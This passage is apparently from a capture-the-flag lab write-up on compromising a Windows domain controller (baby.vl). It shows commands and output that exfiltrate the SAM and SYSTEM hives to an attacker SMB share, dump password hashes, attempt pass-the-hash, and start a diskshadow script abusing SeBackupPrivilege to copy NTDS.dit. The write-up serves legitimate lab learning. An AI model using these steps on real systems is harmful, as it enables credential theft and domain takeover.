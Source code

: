 ```Evil-WinRM -> Kali
└─$ mkdir share/

└─$ impacket-smbserver smb share/ -smb2support

*Evil-WinRM* PS C:\temp> copy sam \\(Kali IP)\smb\sam
*Evil-WinRM* PS C:\temp> copy system \\(Kali IP)\smb\system
```

You'll notice a lot of output from our SMB server when we're copying the files over, this is just a built-in Impacket functionality that will dump the user's NetNTLM hash when they authenticate to our SMB server. We can ignore this, and if we look at the `share/` directory we'll see the two files that we downloaded are in this folder.

Now that we have both of these files, let's run `samdump` on them to retrieve credentials that are within these two databases.

```Kali
└─$ samdump2 system sam
Administrator:500:aad3b435b51404eeaad3b435b51404ee:[...snip...]:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* :503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* ä:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Now that we have the Administrator's hash, let's test the creds once more with `crackmapexec` and by passing the hash to it.

```Kali
└─$ crackmapexec winrm BabyDC.baby.vl -u 'Administrator' -H '[...snip...]'
SMB         BabyDC.baby.vl  5985   BABYDC           [*] Windows Server 2022 Build 20348 (name:BABYDC) (domain:baby.vl)
HTTP        BabyDC.baby.vl  5985   BABYDC           [*] http://BabyDC.baby.vl:5985/wsman
WINRM       BabyDC.baby.vl  5985   BABYDC           [-] baby.vl\Administrator:[...snip...]
```

The thing is, this will fail. The Administrator hash above is not an Administrator hash that we can login with. There is a hash of an account with the same username on the DC, meaning we'll need to look a little further with our `SeBackupPrivilege` to dump another file.

# Diskshadow/Robocopy for NTDS.dit

The file in particular that we're looking for is a copy of the `C:\`'s ntds database, which stores Active Directory information of the respective filesystem path. We can use this along with our previously obtained `SAM` and `SYSTEM` databases to dump the AD secrets of the domain controller.

To exploit this, we can use `diskshadow` and `robocopy` to create a copy of the current drive and copy the copied filesystem back to the `C:\` drive. (Credit goes to Nairuz Abulhul for their explanation of this exploit in their article [here](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960).)

Let's first create a file named `script.txt` and transfer it to our `Evil-WinRM` session. The contents of the script can be seen below.

```diskshadow
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```
